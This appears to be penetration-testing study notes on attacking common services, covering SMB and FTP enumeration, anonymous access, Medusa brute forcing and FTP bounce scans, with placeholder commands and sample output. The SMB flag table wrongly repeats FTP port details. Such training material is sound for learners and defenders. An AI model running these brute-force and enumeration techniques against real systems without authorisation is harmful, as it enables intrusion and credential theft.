


# 🛠️ Attacking Common Services  
*In the vast networked domains, familiar services stand as both guardians and unwitting gateways to the abyss. This module guides the adept through the ritual of enumerating and probing these common sentinels, unveiling hidden weaknesses and ancient vulnerabilities ripe for exploitation.*

> *“Every open port is a whisper in the dark, waiting to be answered.”*

---

<details>
<summary><h1>📢 Introduction</h1></summary>

Vulnerabilities are often discovered by individuals who deeply understand a technology, protocol, or service. As we progress in this field, we will encounter a variety of services to interact with, requiring us to **continuously adapt and learn new technologies**.

To successfully attack a service, we must understand **its purpose, how to interact with it, which tools are available, and the potential actions we can perform**.

This section will explore **common services** and demonstrate practical ways to interact with them effectively.

<details>
<summary><h3>File Share Services</h3></summary>

A file-sharing service is a system that facilitates, manages, and monitors the transfer of computer files. Historically, organizations relied primarily on internal file-sharing protocols such as **SMB**, **NFS**, **FTP**, **TFTP**, and **SFTP**. However, with the widespread adoption of cloud technologies, many companies now also use **third-party cloud-based** solutions like **Dropbox**, **Google Drive**, **OneDrive**, **SharePoint**, and cloud storage services such as **AWS S3**, **Azure Blob Storage**, and **Google Cloud Storage**.

In practice, we will often encounter a hybrid environment where both internal and external file-sharing systems are in use. For example, a server may host internal SMB shares while also synchronizing data with cloud storage.

This section will focus primarily on **internal file-sharing services**, although the same principles can apply to cloud storage solutions that are synced locally to servers and workstations.

</details>

<details>
<summary><h3>Server Message Block (SMB)</h3></summary>

**SMB** is a network file-sharing protocol most commonly used in **Windows environments**. It enables users and applications to read, write, and manage files on remote servers as if they were local. In a Windows network, it is common to find **shared folders** accessible over SMB, often used for collaboration or centralized file storage.

We can interact with SMB shares through:
* **Graphical User Interface (GUI)** – e.g., Windows File Explorer.
* **Command-Line Interface (CLI)** – e.g., `net use`, `dir`, or PowerShell commands in Windows; `smbclient` in Linux.
* **Specialized tools** – e.g., Impacket scripts, CrackMapExec, enum4linux.

The following sections will outline common methods for accessing and interacting with SMB from both Windows and Linux systems.

<details>
<summary><h3>Windows</h3></summary>

<details>
<summary><h4>GUI Method</h4></summary>

**Step 1: Open the Run Dialog Box**

Press `WINKEY` + `R` on your keyboard.

**Step 2: Enter the SMB Share Path**

In the Run dialog box, type the file share location in the following format:

```cmd
\\<IP>\<SHARE_NAME>
```

**Step 3: Authenticate if required**

If prompted, enter valid username and password credentials for the remote system.

**Step 4: Browse the Share**

Once connected, you can view, copy, edit, or delete files according to your permissions.

</details>

<details>
<summary><h4>Windows CMD - DIR</h4></summary>

The command dir displays a list of a directory's files and subdirectories.

**Run the `dir` command on the share**

```cmd
dir  \\<IP>\<SHARE_NAME>
```
```cmd
C:\tom> dir \\192.168.220.129\Finance\

Volume in drive \\192.168.220.129\Finance has no label.
Volume Serial Number is ABCD-EFAA

Directory of \\192.168.220.129\Finance

02/23/2022  11:35 AM    <DIR>          Contracts
               0 File(s)          4,096 bytes
               1 Dir(s)  15,207,469,056 bytes free
```

</details>

<details>
<summary><h4>Windows CMD - Net Use</h4></summary>


**OPTION 1 > Step 1: Use `net use` to connect to the share**

```cmd
net use n: \\<IP>\<SHARE_NAME>
```

**OPTION 2 > Step 1: Use `net use` and provide a username and password to authenticate to the share**

```cmd
net use n: \\<IP>\<SHARE_NAME> /user:<USER> <PASSWORD>
```

With the shared folder mapped as the `n` drive, we can execute Windows commands as if this shared folder is on our local computer. Let's find how many files the shared folder and its subdirectories contain.

**Step 2: Find how many files the shared folder and its subdirectories contain.**

```cmd
dir n: /a-d /s /b | find /c ":\"
```

</details>

<details>
<summary><h4>Windows PowerShell - Get-ChildItem</h4></summary>

**Run the `Get-ChildItem` command on the share**

```powershell
Get-ChildItem \\<IP>\<SHARE_NAME>
```
```powershell
# PS C:\tom> Get-ChildItem \\192.168.220.129\Finance\

#     Directory: \\192.168.220.129\Finance

# Mode                 LastWriteTime         Length Name
# ----                 -------------         ------ ----
# d-----         2/23/2022   3:27 PM                Contracts
```

</details>

<details>
<summary><h4>Windows PowerShell - New-PSDrive</h4></summary>

**OPTION 1 > Step 1: Map the shared folder to a drive letter using `New-PSDrive`**

```powershell
New-PSDrive -Name "N" -Root "\\<IP>\<SHARE_NAME>" -PSProvider "FileSystem"
```

**OPTION 2 > Step 1: Provide a username and password with Powershell to map the shared folder to a drive letter using `New-PSDrive`**

```powershell
$username = '<USER>'
$password = '<PASWORD>'
$secpassword = ConvertTo-SecureString $password -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $username, $secpassword
New-PSDrive -Name "N" -Root "\\<IP>\<SHARE_NAME>" -PSProvider "FileSystem" -Credential $cred
```
```powershell
# Name           Used (GB)     Free (GB) Provider      Root                                               CurrentLocation
# ----           ---------     --------- --------      ----                                               ---------------
# N                                      FileSystem    \\192.168.220.129\Finance
```

**Step 2: Find how many files the shared folder and its subdirectories contain.**

```powershell
N:
(Get-ChildItem -File -Recurse | Measure-Object).Count
```

</details>

</details>

<details>
<summary><h3>Linux</h3></summary>

Linux (UNIX) machines can also browse and mount SMB shares. This works whether the target server is a **Windows machine** or a **Samba server**. While some Linux distributions include GUI support, we will focus on using **command-line utilities** and tools to interact with SMB.

> **NOTE:** We need to install `cifs-utils` to connect to an SMB share folder. To install it we can execute from the command line `sudo apt install cifs-utils`.

<details>
<summary><h4>Linux - Mount</h4></summary>

**OPTION 1 > Step 1: Mount an SMB share to interact with its directories and files locally**

```bash
sudo mkdir /mnt/<SHARE_NAME>
sudo mount -t cifs -o username=<USER>,password=<PASWORD>,domain=. \\<IP>\<SHARE_NAME>
```

**OPTION 1 > Step 2: Use a credential file to mount an SMB share to interact with its directories and files locally**

```bash
sudo mkdir /mnt/<SHARE_NAME>
sudo mount -t cifs \\<IP>\<SHARE_NAME> /mnt/<SHARE_NAME> -o credentials=./credential_file.txt
```

The file `credential_file.txt` has to be structured like this:

```txt
username=plaintext
password=Password123
domain=.
```

</details>

</details>

</details>

<details>
<summary><h3>Command Line Utilities</h3></summary>

<details>
<summary><h4>Linux - SQSH</h4></summary>

The `sqlcmd` utility lets you enter Transact-SQL statements, system procedures, and script files through a variety of available modes:

* At the command prompt.
* In Query Editor in SQLCMD mode.
* In a Windows script file.
* In an operating system (Cmd.exe) job step of a SQL Server Agent job.

```bash
sqsh -S <IP> -U <USER> -P <PASSWORD>
```

</details>

<details>
<summary><h4>Linux - SQLCMD</h4></summary>

```bash
sqlcmd -S <IP> -U <USER> -P <PASSWORD>
```

</details>

<details>
<summary><h4>Linux - MySQL</h4></summary>

**Start an interactive SQL Session using Linux**

```bash
mysql -u <USER> -p<PASSWORD> -h <IP>
```

</details>

<details>
<summary><h4>Windows - MySQL</h4></summary>

**Start an interactive SQL Session using Windows**

```bash
mysql.exe -u <USER> -p<PASSWORD> -h <IP>
```

</details>

</details>

<details>
<summary><h3>Tools to Interact with Common Services</h3></summary>

| **SMB**        | **FTP**      | **Email**                       | **Databases**                               |
|----------------|-------------|----------------------------------|---------------------------------------------|
| smbclient      | ftp         | Thunderbird                     | mssql-cli                                   |
| CrackMapExec   | lftp        | Claws                           | mycli                                       |
| SMBMap         | ncftp       | Geary                           | mssqlclient.py                              |
| Impacket       | filezilla   | MailSpring                      | dbeaver                                     |
| psexec.py      | crossftp    | mutt                            | MySQL Workbench                             |
| smbexec.py     |             | mailutils                       | SQL Server Management Studio (SSMS)        |
|                |             | sendEmail                       |                                             |
|                |             | swaks                           |                                             |
|                |             | sendmail                        |                                             |

</details>

<details>
<summary><h3>General Troubleshooting</h3></summary>

Depending on the **Windows** or **Linux** version we are working with or targeting, we may face various challenges when trying to connect to a service.

Common reasons for **lack of access** to a resource include:

* Authentication issues
* Insufficient privileges
* Network connectivity problems
* Firewall restrictions
* Unsupported protocols

Errors may vary depending on the specific service targeted. It’s important to leverage these **error codes** by consulting official documentation or community forums, where solutions to similar problems can often be found.

</details>

You can refer to the [GENERAL](./00-general.md) module to find different ways to explore and list files.

</details>

---

<details>
<summary><h1>🎯 Protocol Specific Attacks</h1></summary>

<details>
<summary><h2>The Concept of Attacks</h2></summary>

To effectively understand attacks on different services, we need to examine **how these services can be targeted**. A concept is a general plan or framework applied across various projects. For example, consider the concept of building a house: most houses have a basement, four walls, and a roof. While the specific materials or designs may vary, the basic structure remains consistent worldwide. This illustrates that a concept requires general categories—like floors, walls, and roof—that provide a flexible but unified framework.

In our context, we need to develop a concept for attacking various services by grouping them into categories that summarize all services while still allowing for individual attack methods.

To clarify, we can try grouping services like **SSH**, **FTP**, **SMB**, and **HTTP** and identify what they have in common. From there, we can build a structure or pattern that helps us pinpoint attack vectors across these services using a single, unified approach.

This process of analyzing commonalities and creating adaptable attack pattern templates is ongoing—it’s not a finished product but an evolving framework that grows and improves over time.

The concept is structured around four categories that appear in every vulnerability:

<details>
<summary><h3>1. Source</h3></summary>

We can generalize **Source** as the origin of information used by a process to perform a specific task. Information can be passed to a process in many different ways.

| Information Source | Description                                                                                                           |
|--------------------|-----------------------------------------------------------------------------------------------------------------------|
| Code               | The results of already executed program code used as a source of information. These can come from different functions of a program. |
| Libraries          | A collection of program resources, including configuration data, documentation, help data, message templates, prebuilt code and subroutines, classes, values, or type specifications. |
| Config             | Usually static or prescribed values that determine how the process handles information.                              |
| APIs               | Application Programming Interfaces used as program interfaces for retrieving or providing information.               |
| User Input         | Manual entry of information by a person, when a program allows user input to process data accordingly.               |

The Source is the origin exploited to trigger vulnerabilities. The specific protocol used is irrelevant—for example, HTTP header injections can be manipulated manually, just like buffer overflows.

</details>

<details>
<summary><h3>2. Process</h3></summary>

The **Process** refers to how information received from the Source is handled. This processing is carried out according to the task defined by the program code. For each task, developers specify how information should be processed—using classes, functions, calculations, loops, and more. Since development approaches vary widely, the possibilities are nearly endless. Consequently, most vulnerabilities stem from flaws in the program code executed during this process.

| Process Components | Description                                                                                                          |
|--------------------|----------------------------------------------------------------------------------------------------------------------|
| PID                | The Process ID (PID) identifies the process being started or already running. Running processes have assigned privileges, and new ones are started accordingly. |
| Input              | Refers to information input assigned either by a user or resulting from a programmed function.                       |
| Data processing    | The hard-coded functions of a program that dictate how the received information is processed.                         |
| Variables          | Placeholders for information that different functions can further process during the task.                           |
| Logging            | The documentation of certain events, often stored in a register or file, meaning some information remains in the system. |

</details>

<details>
<summary><h3>3. Privileges</h3></summary>

**Privileges** exist in all systems that manage processes. They act like permissions that determine which tasks and actions can be performed. Simply put, privileges are like a bus ticket: if you have a ticket for a specific region, you can ride the bus; if not, you cannot.

Similarly, privileges (or “tickets”) can apply to various modes of transport—planes, trains, boats, and so on. In computer systems, privileges control and segment actions, requiring different permissions that the system enforces.

When a process attempts to perform a task, the system checks if it has the necessary privileges. If the required permissions and conditions are met, the system approves the requested action.

| Privileges | Description                                                                                                          |
|------------|----------------------------------------------------------------------------------------------------------------------|
| System     | These are the highest privileges allowing any system modification. In Windows, this is called SYSTEM; in Linux, root. |
| User       | Permissions assigned to a specific user. For security, Linux often creates separate users for specific services.     |
| Groups     | Categorization of users who share certain permissions to perform specific actions.                                    |
| Policies   | Determine execution of application-specific commands, applying to individual or grouped users and their actions.      |
| Rules      | Permissions to perform actions managed within the applications themselves.                                           |

</details>

<details>
<summary><h3>4. Destination</h3></summary>

Every task has at least one purpose or goal that must be fulfilled. If data changes were neither stored nor forwarded, the task would generally be unnecessary. The outcome of a task is either stored locally or forwarded to another processing point.

This endpoint is called the **Destination**, where the data changes occur. Destinations can be either local or remote processes. At the local level, files or records may be modified, or data may be forwarded to other local services for further use. However, the same process may also reuse the resulting data.

Once the data is stored or forwarded, the cycle of the task is complete.

| Destination | Description                                                                                                               |
|-------------|---------------------------------------------------------------------------------------------------------------------------|
| Local       | The local area refers to the system environment where the process occurred. Results are either further processed or stored locally. |
| Network     | The network area involves forwarding process results to a remote interface, such as an IP address, its services, or entire networks. Under some circumstances, these results can also influence routing. |

</details>

> **NOTE:** While these categories are consistent across services, the specific details within each may vary depending on the service.

We now have a repeatable pattern template that can be applied to attacks. This template helps analyze and understand exploits, and it is useful for debugging our own exploits during development and testing. Additionally, it can be applied to source code analysis, enabling step-by-step review of specific functionalities and commands. Lastly, this approach allows us to evaluate the risks associated with each task individually.

</details>

<details>
<summary><h2>Service Misconfigurations</h2></summary>

Misconfigurations occur when system administrators, technical support, or developers incorrectly set up the security framework of an application, website, desktop, or server. This often creates vulnerable pathways that unauthorized users can exploit.

<details>
<summary><h3>Authentication</h3></summary>

In previous years—and occasionally even today during assessments—it was common for services to come with default credentials (username and password). This poses a significant security risk because many administrators fail to change these defaults.

Nowadays, most software requires users to set up credentials during installation, which is an improvement. However, default credentials can still be found, especially in older applications.

Even if there are no default credentials, administrators might use weak or no passwords initially, intending to change them later, which creates vulnerabilities.

To prevent this, administrators should define and enforce strong password policies for all software deployed or tested within their environment.

<details>
<summary><h4>Anonymous Authentication</h4></summary>

Another common misconfiguration is **anonymous authentication**. When enabled, the service allows anyone with network access to connect without requiring credentials, creating a serious security risk.

</details>

<details>
<summary><h4>Misconfigured Access Rights</h4></summary>

**Misconfigured access rights** occur when user accounts are granted incorrect permissions. A significant risk arises when individuals lower in the organizational hierarchy gain access to sensitive information intended only for managers or administrators.

</details>

</details>

<details>
<summary><h3>Unnecessary Defaults</h3></summary>

The initial configuration of devices and software often includes default settings, features, files, and credentials. These defaults are usually designed for ease of use rather than security. Leaving these defaults unchanged is a poor security practice, especially in production environments. Unnecessary default settings should be modified to reduce the system’s attack surface.

Accepting default settings during setup can expose sensitive company information. Attackers may exploit default credentials or weak settings with minimal effort, sometimes just by a quick internet search.

**[Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)** is listed in the **[OWASP Top 10](https://owasp.org/Top10/)**. Common issues related to default values include:
* Unnecessary features enabled or installed (e.g., open ports, unused services, default pages, accounts, or privileges).
* Default accounts and passwords remain enabled and unchanged.
* Error handling exposes stack traces or overly detailed error messages to users.
* On upgraded systems, new security features are disabled or improperly configured.

</details>

<details>
<summary><h3>Preventing Misconfiguration</h3></summary>

Once we understand our environment, the most effective way to control risk is to lock down critical infrastructure and allow only necessary behaviors. Any communication or service not required by the application should be disabled. Examples include:

* Disabling admin interfaces when not in use.
* Turning off debugging features.
* Disabling default usernames and passwords.
* Configuring servers to prevent unauthorized access, directory listing, and related issues.
* Running regular scans and audits to detect misconfigurations or missing patches.

The **OWASP Top 10** includes guidance on securing installation processes, emphasizing the importance of a repeatable hardening process:

* Use a consistent hardening procedure to quickly and easily deploy secure environments.
* Configure development, QA, and production environments identically but with different credentials per environment.
* Automate this process to minimize setup effort and errors.

Other best practices include:

* Maintain a minimal platform by removing or not installing unnecessary features, components, documentation, and sample code.
* Regularly review and update configurations to apply security notes, updates, and patches (see A06:2021 - Vulnerable and Outdated Components). Also, review cloud storage permissions, such as S3 bucket policies.
* Implement a segmented application architecture to enforce secure separation between components or tenants via segmentation, containerization, or cloud security groups (ACLs).
* Send security directives to clients, such as appropriate security headers.
* Automate verification processes to ensure configuration effectiveness across all environments.

</details>

</details>

<details>
<summary><h2>Finding Sensitive Information</h2></summary>

When attacking a service, we act like detectives — gathering as much information as possible and carefully observing every detail. Every single piece of information can be critical.

**Example Scenario**

* Target services: Email, FTP, Databases, Storage
* Goal: Achieve Remote Code Execution (RCE) on any service
* Initial enumeration: Tried anonymous access on all services
* Outcome: Only FTP allowed anonymous access
* Found an empty file named `johnsmith` in FTP
* Tried using "johnsmith" as FTP username and password — unsuccessful
* Tried same credentials on Email service — successful login
* Searched emails for "password" and found John’s MSSQL credentials
* Accessed the MSSQL database and used built-in functions to execute commands
* Successfully gained RCE on the database server

This shows how a seemingly insignificant piece of data (the empty file `johnsmith`) can lead to discovering valuable information and achieving the ultimate goal.

**Types of Sensitive Information to Look For**

Usernames
* Email Addresses
* Passwords
* DNS Records
* IP Addresses
* Source Code
* Configuration Files
* Personally Identifiable Information (PII)

**Covered Services for Information Discovery**

* File Shares
* Email
* Databases

**Understanding What to Look For**

Every target is unique, so it’s important to:

* Understand the target’s business model, purpose, and processes
* Determine what information is valuable to the target
* Know what type of information is useful for your attack

Two key elements for finding sensitive information:

1. Understand how the service works
2. Know exactly what you are looking for

</details>

</details>

---

<details>
<summary><h1>📄 FTP</h1></summary>

The **File Transfer Protocol (FTP)** is a standard network protocol used to transfer files between computers.
It also supports file system operations such as:

* Changing the working directory
* Listing files
* Renaming files or directories
* Deleting files or directories

**Default Port:**
* TCP/21

**Common Uses**
* Moving files between systems in software development environments
* Updating or deploying website content
* Sharing large datasets within an organization

<details>
<summary><h2>Attack Vectors</h2></summary>

When targeting an FTP server, there are several possible approaches:

1. **Misconfiguration or Excessive Privileges**
    * Anonymous access enabled
    * Improper file/directory permissions
    * Sensitive files stored in publicly accessible directories

2. **Exploiting Known Vulnerabilities**
    * Outdated FTP server software
    * Weak authentication mechanisms

3. **Discovering New Vulnerabilities**
    * Protocol-specific flaws
    * Vendor-specific bugs

</details>

<details>
<summary><h2>Post-Access Actions</h2></summary>

Once access is gained, you should:

* **Enumerate the directory contents** to identify sensitive or critical files

* **Check folder structure** — FTP typically uses a hierarchical directory structure:

* **Search for sensitive files**, such as:
    * Configuration files (`config.php`, `.env`)
    * Database dumps (`backup.sql`)
    * Source code files
    * Credentials

</details>

<details>
<summary><h2>Nmap Scan</h2></summary>

**Example Command**

```bash
sudo nmap -sC -sV -p 21 <TARGET_IP>
```

| Flag            | Purpose                                         |
|-----------------|-------------------------------------------------|
| `-sC`           | Run default NSE scripts (includes `ftp-anon`)   |
| `-sV`           | Detect service version and banner               |
| `-p 21`         | Scan only TCP port 21                           |
| `<TARGET_IP>` | Target IP address                               |

**Why This Matters**
* **Anonymous access** may expose files without authentication.
* **Version information** helps identify:
    * Known vulnerabilities
    * Possible exploits for the specific FTP server software

</details>

<details>
<summary><h2>Misconfigurations</h2></summary>

As discussed earlier, **anonymous authentication** can be enabled for services such as FTP.  
This can create serious security risks if not configured properly.

How Anonymous FTP Login Works
* **Username:** `anonymous`
* **Password:** *(empty)*

**Potential Risks**
If read/write permissions are **not** configured correctly:
* Sensitive files might be stored in folders accessible to anonymous users.
* Anyone could **download confidential data** without authentication.
* Attackers could **upload malicious scripts** to the server.

**Example Command**

```bash
ftp <TARGET_IP> <PORT>
```
```bash
# Connected to <TARGET_IP>.
# 220 (vsFTPd 2.3.4)
# Name (<TARGET_IP>:kali): anonymous
# 331 Please specify the password.
# Password:
# 230 Login successful.
# Remote system type is UNIX.
# Using binary mode to transfer files.

# ftp> ls

# 200 PORT command successful. Consider using PASV.
# 150 Here comes the directory listing.
# -rw-r--r--    1 0        0               9 Aug 12 16:51 test.txt
# 226 Directory send OK.
```

</details>

<details>
<summary><h2>Brute Forcing with Medusa</h2></summary>

**Example Command: **

```bash
medusa -u <USER_LIST> -P <PASSWORD_LIST> -h <TARGET_IP> -M ftp -n <PORT>
```
```bash
# Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>                                                      
# ACCOUNT CHECK: [ftp] Host: <TARGET_IP> (1 of 1, 0 complete) User: <USER> (1 of 1, 0 complete) Password: 123456 (1 of 14344392 complete)
# ACCOUNT CHECK: [ftp] Host: <TARGET_IP> (1 of 1, 0 complete) User: <USER> (1 of 1, 0 complete) Password: 12345 (2 of 14344392 complete)
# ACCOUNT CHECK: [ftp] Host: <TARGET_IP> (1 of 1, 0 complete) User: <USER> (1 of 1, 0 complete) Password: 123456789 (3 of 14344392 complete)
# ACCOUNT FOUND: [ftp] Host: <TARGET_IP> User: <USER> Password: <PASSWORD> [SUCCESS]
```

</details>

<details>
<summary><h2>FTP Bounce Attack</h2></summary>

An **FTP bounce attack** is a technique that abuses FTP servers to send network traffic to another device.  
This is achieved by manipulating the `PORT` command to make the FTP server connect to a different target.

**How It Works**

1. The attacker connects to an **FTP server** that is exposed to the internet (e.g., `FTP_DMZ`).
2. They use the `PORT` command to instruct the FTP server to interact with another host on the same internal network (e.g., `Internal_DMZ`).
3. The FTP server unknowingly **proxies requests** to the internal host.
4. This allows the attacker to:
   * Scan internal hosts
   * Identify open ports
   * Gather information for further exploitation

**Example Command**

```bash
nmap -Pn -v -n -p80 -b <USER>:<PASSWORD>@<ATTACKER_IP> <TARGET_IP>
```
```bash
# Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 04:55 EDT
# Resolved FTP bounce attack proxy to <ATTACKER_IP> (<ATTACKER_IP>).
# Attempting connection to ftp://anonymous:password@<ATTACKER_IP>:21
# Connected: 220 (vsFTPd 3.0.3)
# Login credentials accepted by FTP server!
# Initiating Bounce Scan at 04:55
# FTP command misalignment detected ... correcting.
# Completed Bounce Scan at 04:55, 0.54s elapsed (1 total ports)

# Nmap scan report for <TARGET_IP>
# Host is up.

# PORT   STATE  SERVICE
# 80/tcp open  http
```

| **Flag** | **Purpose** |
|----------|-------------|
| `-Pn`    | Skip host discovery, treat all hosts as online. |
| `-v`     | Verbose output. |
| `-n`     | Disable DNS resolution. |
| `-p80`   | Scan only TCP port 80. |
| `-b`     | Perform FTP bounce scan (`user:pass@ftp_server target_ip`). |

> **NOTE:** FTP bounce attacks are deprecated in many modern FTP servers, but vulnerable implementations still exist in outdated or misconfigured environments.

</details>

</details>

---

<details>
<summary><h1>🗃️ SMB</h1></summary>

**Server Message Block (SMB)** is a protocol for sharing files and printers across networked systems.
Originally, SMB ran on **NetBIOS over TCP/IP** (TCP 139, UDP 137–138). Since Windows 2000, it can also run directly over **TCP 445**, which modern Windows systems use by default—though NetBIOS is still supported as a fallback.

**Samba** is the open-source SMB implementation for Unix/Linux, enabling interoperability with Windows clients.

When scanning, SMB on **port 445** indicates direct TCP usage, while **port 139** usually means SMB is running over NetBIOS.

**MSRPC (Microsoft Remote Procedure Call)** can run over SMB via named pipes, allowing functions to execute remotely without dealing with low-level networking.

<details>
<summary><h2>Attack Vectors</h2></summary>

**Attacking SMB** involves identifying its version, OS, and configuration. Potential vectors include:

* **Misconfigurations/excessive privileges**
* **Known or new vulnerabilities**
* **Sensitive shared files**
* **NetBIOS/RPC enumeration** to gather intel or perform actions.

</details>

<details>
<summary><h2>Nmap Scan</h2></summary>

**Example Command**

```bash
sudo nmap <TARGET_IP> -sV -sC -p139,445
```
```bash
# PORT    STATE SERVICE     VERSION
# 139/tcp open  netbios-ssn Samba smbd 4.6.2
# 445/tcp open  netbios-ssn Samba smbd 4.6.2
# MAC Address: 00:00:00:00:00:00 (VMware)

# Host script results:
# |_nbstat: NetBIOS name: RTH, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
# | smb2-security-mode: 
# |   2.02: 
# |_    Message signing enabled but not required
# | smb2-time: 
# |   date: 2021-09-19T13:16:04
# |_  start_date: N/A
```

| Flag            | Purpose                                         |
|-----------------|-------------------------------------------------|
| `-sC`           | Run default NSE scripts (includes `ftp-anon`)   |
| `-sV`           | Detect service version and banner               |
| `-p 21`         | Scan only TCP port 21                           |
| `<TARGET_IP>` | Target IP address                               |

**Why This Matters**
* Identifies SMB version and implementation (e.g., Samba smbd 4.6.2)
* Reveals hostname and possible OS type
* Helps detect:
    * Misconfigurations (e.g., message signing disabled)
    * Potential vulnerabilities
* Provides NetBIOS details for further enumeration

</details>

<details>
<summary><h2>Misconfigurations</h2></summary>

SMB can be configured not to require authentication, which is often called a null session. Instead, we can log in to a system with no username or password.

<details>
<summary><h3>Anonymous Authentication</h3></summary>

SMB servers can allow access without requiring a username and password (null session), or we may use valid credentials if available.

* **Potential Access:** Using anonymous authentication, we can gather information such as:
    * List of file shares
    * Usernames and groups
    * Permissions and policies
    * Running services
* **Tools Supporting Null Sessions:**
    * `smbclient`
    * `smbmap`
    * `rpcclient`
    * `enum4linux`

</details>

<details>
<summary><h3>File Share</h3></summary>

**Using `smbclient`**

```bash
smbclient -N -L //<TARGET_IP>
```
```bash
# Sharename       Type      Comment
# -------         --        -------
# ADMIN$          Disk      Remote Admin
# C$              Disk      Default share
# notes           Disk      CheckIT
# IPC$            IPC       IPC Service (DEVSM)
# SMB1 disabled no workgroup available
```

---

**Using `smbmap`**

```bash
smbmap -H <TARGET_IP>
```
```bash
# [+] IP: <TARGET_IP>:445
# Disk       Permissions   Comment
# ----       -----------   -------
# ADMIN$     NO ACCESS     Remote Admin
# C$         NO ACCESS     Default share
# IPC$       READ ONLY     IPC Service (DEVSM)
# notes      READ, WRITE   CheckIT
```

**Browse Share Recursively:**

```bash
smbmap -H <TARGET_IP> -r <SHARE_NAME>
```
```bash
# [+] Guest session       IP: <TARGET_IP>:445    Name: <TARGET_IP>                           
#         Disk                                                    Permissions     Comment
#         --                                                   ---------    -------
#         notes                                                   READ, WRITE
#         .\notes\*
#         dr--r--r               0 Mon Nov  2 00:57:44 2020    .
#         dr--r--r               0 Mon Nov  2 00:57:44 2020    ..
#         dr--r--r               0 Mon Nov  2 00:57:44 2020    LDOUJZWBSG
#         fw--w--w             116 Tue Apr 16 07:43:19 2019    note.txt
#         fr--r--r               0 Fri Feb 22 07:43:28 2019    SDT65CB.tmp
#         dr--r--r               0 Mon Nov  2 00:54:57 2020    TPLRNSMWHQ
#         dr--r--r               0 Mon Nov  2 00:56:51 2020    WDJEQFZPNO
#         dr--r--r               0 Fri Feb 22 07:44:02 2019    WindowsImageBackup
```

